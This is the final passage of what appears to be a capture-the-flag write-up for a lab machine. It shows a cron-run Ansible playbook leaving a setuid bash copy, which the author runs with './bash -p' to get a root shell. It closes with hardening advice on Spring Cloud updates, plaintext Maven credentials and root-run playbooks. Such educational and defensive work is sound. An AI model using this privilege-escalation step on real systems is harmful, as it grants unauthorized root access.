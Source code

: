 I waited for the cron to run. After a few seconds, bash was there with the bit set. I ran it and got the root flag.

```bash
phil@inject:~$ ls -ltrh
total 4.2M
-rw-r----- 1 root phil   33 Apr  1 13:23 user.txt
-rwxrwxr-x 1 phil phil 3.0M Apr  1 16:48 pspy64
-rw-rw-r-- 1 phil phil  106 Apr  1 16:55 playbook_2.yml
-rw-rw-r-- 1 phil phil  184 Apr  1 17:04 playbook_3.yml
-rwsr-xr-x 1 root root 1.2M Apr  1 17:06 bash

phil@inject:~$ ./bash -p

bash-5.0# cd /root/

bash-5.0# cat root.txt
REDACTED
```

## Hardening the Box

The first step in fixing this machine is to update the dependencies. The Spring Cloud version has a vulnerability that is easy to exploit and allows running code on the server. An update would have prevented that.

Next, having the password of a user in a plaintext file is a bad idea. This appears to be the way [Maven store the credentials](https://maven.apache.org/settings.html#servers) to avoid having them in 'pom.xml'. They can at least be encrypted. And frank should not have access to phil's credentials.

The last issue was having phil creating Ansible playbooks that gets run by root. If phil is allowed to modify the system, maybe they should use sudo to do it. Or at least they should protect their credentials to prevent anyone with access to the machine from using their privileges.